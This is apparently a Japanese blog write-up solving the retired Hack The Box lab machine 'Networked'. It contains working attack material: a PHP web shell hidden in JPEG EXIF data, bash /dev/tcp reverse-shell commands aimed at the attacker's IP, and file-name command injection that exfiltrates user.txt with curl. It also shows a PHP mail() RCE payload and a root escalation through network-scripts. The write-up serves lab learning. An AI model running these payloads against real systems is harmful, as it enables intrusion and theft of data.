




「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Networked」のWriteUpです。

### 記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [PHPファイルの解析](#phpファイルの解析)
  - [exiftoolを使って画像ファイルにPHPスクリプトを埋め込む](#exiftoolを使って画像ファイルにphpスクリプトを埋め込む)
  - [User権限の取得](#user権限の取得)
  - [ユーザ権限のシェルを取得する](#ユーザ権限のシェルを取得する)
- [まとめ](#まとめ)


## 探索

とりあえずポートスキャンから実施します。

80番ポートが開いていることがわかりました。

``` bash
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
```

つづいて、マシンのアドレスをブラウザで開いてみます。



OWASP ZAPで自動スキャンを実施してみるものの特に何もでませんでした。



そのため、`gobuster`でディレクトリを探索します。

``` bash
$ gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster1.txt

/uploads              (Status: 301) [Size: 238] [--> http://targethost.htb/uploads/]
/backup               (Status: 301) [Size: 237] [--> http://targethost.htb/backup/] 
```

`backup`というパスが見つかり、ここからサーバ上で稼働しているPHPスクリプトを取得することができます。



``` bash
$ tar -xvf backup.tar 
index.php
lib.php
photos.php
upload.php
```

## PHPファイルの解析

ダウンロードしたファイルのうち、`upload.php`を見ていきます。

``` php
# upload.php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

どうやら画像ファイルをアップロードすることができるアプリケーションのようです。

最終的にリバースシェルを獲得できそうなPHPファイルをアップロードできればよさそうですが、アップロードには以下の条件分岐を突破する必要があるようです。

- `isset($_POST['submit'])`
- `!empty($_FILES["myFile"]`
- `!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)`
- `substr_compare($myFile["name"], $vext, -strlen($vext)) === 0`

``` php
$name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;
$success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name)
chmod(UPLOAD_DIR . $name, 0644);
```

とりあえずここの突破を目指します。

``` php
function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}
```

実際に動かしてみると挙動がよくわかります。

``` bash
php -S 127.0.0.1:8080
```

### exiftoolを使って画像ファイルにPHPスクリプトを埋め込む

スクリプトをアップロードするためには、まずは以下の箇所でMIMEタイプの処理をバイパスする必要があることがわかりました。

``` php
$mime_type = file_mime_type($file);
if (strpos($mime_type, 'image/') === 0)
```

以下のコマンドでコマンドを埋め込みました。

``` bash
# 動作確認用
exiftool -documentname='<?php echo "foobarbaz"; ?>' test.jpg
mv test.jpg test.php.jpg

exiftool -documentname='<?php system($_GET['cmd']); ?>' test.jpg
mv test.jpg test.php.jpg

###############
$ file test.php.jpg 
test.php.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "<?php system(['cmd']); ?>", baseline, precision 8, 1x30, components 3
```

参考：[Bypass File Upload Filtering · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html)

参考：[File Upload - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

上記のファイルをアップロードした後、以下のクエリ付きでサーバに接続することでリバースシェルが取れます。

``` bash
curl -G --data-urlencode "cmd=bash -c '/bin/bash -l > /dev/tcp/10.10.14.2/4444 0<&1 2>&1'" http://10.10.10.146/uploads/10_10_14_2.php.jpg | cat
```

ですが、Webサーバのユーザ権限ではFlagが取得できないようですので、ここから内部探索を始めます。

``` bash
$ whoami
apache

$ ls /home/guly
check_attack.php
crontab.guly
user.txt

$ cat user.txt
cat: user.txt: Permission denied
```

※ちなみにWriteupを見てみたら、わざわざexifに埋め込まなくてもこういう方法でもRCEができるようです。

``` bash
oot@kali:~/Desktop/HTB/boxes/networked# cp original.png ./test.png
root@kali:~/Desktop/HTB/boxes/networked# echo '<?php' >> test.png
root@kali:~/Desktop/HTB/boxes/networked# echo 'passthru("whoami");' >> test.png
root@kali:~/Desktop/HTB/boxes/networked# echo '?>' >> test.png
root@kali:~/Desktop/HTB/boxes/networked# mv test.png test.php.png
```

### User権限の取得

内部探索をしたところ、`check_attack.php`とユーザ権限で動くclontabが見つかりました。

以下のclonは、3分おきにgulyの権限で`check_attack.php`を実行しているようです。

``` bash
$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```

ユーザ権限でこのスクリプトをclon実行しているので、ここでRCEできればシェルが取れそうです。

``` php
# check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

上記のコードはざっくり以下のような処理を実施しています。

1. アップロードされたファイルを拡張子とファイル名に分ける
2. ファイル名の形式がIPアドレスの形式に合致しているかをチェックする
3. ファイル名が改ざんされている場合、ログに記録し、mail関数でメールを送信する

関連する処理のみを以下に集めてみました。

``` php
function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}

list ($name,$ext) = getnameCheck($value);
$check = check_ip($name,$value);
if (!($check[0])) {
  echo "attack!\n";
  # todo: attach file
  file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

  exec("rm -f $logpath");
  exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
  echo "rm -f $path$value\n";
  mail($to, $msg, $msg, $headers, "-F$value");
}
```

参考：[PHP関数 - 文字列をファイルに書き込む - file_put_contents() - PHP入門のカルマ](https://webkaru.net/php/function-file-put-contents/)

参考：[PHP: mail - Manual](https://www.php.net/manual/en/function.mail.php)

参考：[PHP Tryit Editor v1.2](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_func_string_implode)

ここで、PHPのmail関数の5番目の引数を制御できる場合はRCEによりリバースシェルが取得できる可能性があります。

mail関数の5番目の引数で`-X`オプションを利用した場合、任意のファイルにログを吐き出させることができるため、`/var/www/html/rce.php`などにスクリプトを埋め込んだログを吐き出させることでRCEを実現することが可能になります。

``` php
$to = 'a@b.c';
$subject = '<?php system($_GET["cmd"]); ?>';
$message = '';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/var/www/html/rce.php';
mail($to, $subject, $message, $headers, $options);
```

参考：[Exploit PHP's mail() to get remote code execution - Sysadmins of the North](https://www.saotn.org/exploit-phps-mail-get-remote-code-execution/)

とはいえ上記の記事の方法では結局`guly`のシェルは取れなさそうなので`check_attack.php`内からコマンドを実行させるには別の方法が必要そうです。

しばらくmail関数の脆弱性を探してみましたが、`check_attack.php`内でコマンドを実行させられそうな方法は見当たりませんでした。

そこで、視点を変えて少し前の行を見てみたところ、`$path$value`の値を直接exec関数に埋め込んでいる行がありました。

`$value`の値は拡張子付きのファイル名を経由して自由に書き換えることができるため、この行にはコマンドインジェクションの脆弱性がありそうです。

``` php
exec("rm -f $logpath");
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
echo "rm -f $path$value\n";
```

というわけで動作確認をしてみます。

ローカルマシンでicmpを待ち受けます。

``` bash
sudo tcpdump -i tun0 icmp
```

そして、リモートサーバで以下のコマンドを実行して3分待ち、コマンドインジェクションが成功することを確認しました。

```  bash
touch "test.php && ping 10.10.14.2"
```

というわけでuser.txtを盗み出します。

以下のコマンドでファイルを作成することで、`user.txt`の中身をクエリとしたGETアクセスを自分のサーバに飛ばすことができ、Flagを取得できます。

``` bash
touch "test.php && curl 10.10.14.2?flag=\`cat user.txt\`"
```

Linuxのファイルシステムではファイル名に`/`を入力できないため、このような面倒なコマンドにしています。

### ユーザ権限のシェルを取得する

次にrootを取得していきたいのですが、その前にユーザ権限のシェルを確保しようと思います。

ファイル名にスラッシュを入れることができませんが、この問題をBase64で回避します。

``` bash
echo "bash -c '/bin/bash -l > /dev/tcp/10.10.14.2/9999 0<&1 2>&1'" | base64
# YmFzaCAtYyAnL2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMi85OTk5IDA8JjEgMj4mMScK

touch "test.php && echo YmFzaCAtYyAnL2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMi85OTk5IDA8JjEgMj4mMScK | base64 -d > rev.sh && bash rev.sh"
```

上記のようにBase64エンコードしたコマンドを埋め込むことで、スラッシュを使わずに任意のコードを実行させることができます。



sudoの権限を確認してみるとあからさまファイル`changename.sh`がありました。

``` bash
$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

中身を見てみるとネットワークスクリプト`ifcfg-guly`を作成するスクリプトのようです。

``` bash
# changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
/sbin/ifup guly0
```

ネットワークスクリプトには普通にコマンドを埋め込むことができるので、ここに`bash`などを埋め込めばroot権限でシェルが立ち上がり、Flagを取得することができます。

``` bash
[guly@networked .ssh]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
bash
///
[root@networked network-scripts]# cd /root
```

参考：[Redhat/CentOS root through network-scripts - Exploit](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

## まとめ

久々にマシン攻略しました。

これからぼちぼちやっていこうと思ってます。
